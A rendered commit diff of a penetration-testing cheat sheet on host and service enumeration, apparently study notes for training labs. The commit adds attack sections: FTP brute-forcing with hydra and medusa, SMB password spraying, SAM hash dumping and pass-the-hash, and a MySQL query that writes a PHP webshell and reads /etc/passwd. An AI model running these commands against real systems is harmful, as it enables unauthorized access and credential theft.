

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md, 2 parts joined by grey strips. Shown at 88% size. Rendered like a GitHub page; blank space fills up the shorter version.

`````diff
--- a/Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md
+++ b/Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md
@@ -31,6 +31,12 @@ ftp> get <file_to_download> (Download a file)
 $ wget -m --no-passive ftp://anonymous:anonymous@<IP> (Download All Available Files)
 ftp> put <file_to_upload>  (Upload a file)
 ````
+**Attack**
+````
+$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h IP -M ftp
+$ hydra -l <userZ -P passwords IP ftp
+$ hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://<IP>
+````
 
 ### SMB
 ````
@@ -42,11 +48,25 @@ smb: \> get <file_to_download> (Download a file)
 smb: \> put <localfile.txt> <remotefile.txt>
 $ samrdump.py <FQDN/IP> (Username enumeration using Impacket scripts.)
 $ smbmap -H <FQDN/IP> (Enumerating SMB shares with smbmap)
+$ smbmap -H <FQDN/IP> -r notes (List specific share with smbmap)
+$ smbmap -H <FQDN/IP> --download "<share>\<file>" (Download a file with smbmap)
+$ smbmap -H <FQDN/IP> --upload <file_to_upload> "<share>\<file_to_upload>" (Upload a file with smbmap)
 $ nxc smb <FQDN/IP> -u '' -p '' --shares (Netexec shares enumerate with null session)
 $ nxc smb <FQDN/IP> -u '<user>' -p '<password>' --shares (Netexec shares enumerate with user account)
 $ enum4linux-ng <FQDN/IP> -A (SMB enumeration using enum4linux.)
+$ enum4linux-ng <IP> -A -C
 $ rpcclient -U "" <FQDN/IP> (Interaction with the target using RPC with null session)
 $ for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done (Brute Force RID)
+````
+**Attack**
+````
+$ nxc smb <FQDN/IP> -u /tmp/userlist.txt -p '<password>' --local-auth (Password Spraying Non-domain joined)
+$ nxc smb <FQDN/IP> -u /tmp/userlist.txt -p '<password>' --local-auth --continue-on-success (Password Spraying Non-domain joined)
+$ nxc smb <FQDN/IP> -u /tmp/userlist.txt -p '<password>'  (Password Spraying Domain Joined)
+$ nxc smb <FQDN/IP> -u /tmp/userlist.txt -p '<password>'  --continue-on-success (Password Spraying Domain Joined)
+$ nxc smb 10.10.110.0/24 -u <user> -p '<password>' --loggedon-users (Enumerating Logged-on Users)
+$ nxc smb <IP> -u <user> -p '<password>' --sam (Extract Hashes from SAM Database)
+$ nxc smb <IP> -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8F (Use Hash NTLM)
 ````
 
 ### NFS
@@ -120,6 +163,15 @@ show columns from <table>;	(Show all columns in the selected table.)
 select * from <table>;	(Show everything in the desired table.)
 select * from <table> where column = "string";	(Search for needed string in the desired table.)
 ````
+**Attack**
+````
+- Write a file -
+mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
+- Enumerate Privileges -
+mysql> show variables like "secure_file_priv";
+- Read a file -
+mysql> select LOAD_FILE("/etc/passwd");
+````
 
 ### MSSQL
 ````
`````
Also changed, not shown: other parts of Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md (+110 -1 lines).
